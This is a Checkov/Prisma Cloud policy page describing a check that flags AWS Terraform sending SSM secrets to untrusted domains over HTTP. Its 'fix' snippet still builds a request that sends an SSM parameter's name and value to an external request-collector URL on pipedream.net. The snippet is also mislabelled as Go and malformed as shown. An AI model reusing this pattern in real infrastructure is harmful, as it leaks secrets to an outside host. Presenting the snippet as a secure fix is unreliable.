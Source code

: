 == AWS Terraform sends SSM secrets to untrusted domains over HTTP


*Policy Details* 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| 97cd3044-4e7e-40b2-9240-4410d7932d79

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/blob/main/checkov/terraform/checks/graph_checks/aws/HTTPNotSendingPasswords.yaml[CKV2_AWS_36]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|Terraform

|=== 



*Description* 


Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== Fix - Buildtime


*Terraform* 




[source,go]
----
{
  "codes": [
    {
      "code": "resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}

data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}",
      "language": "go"
    }
  ]
}
----
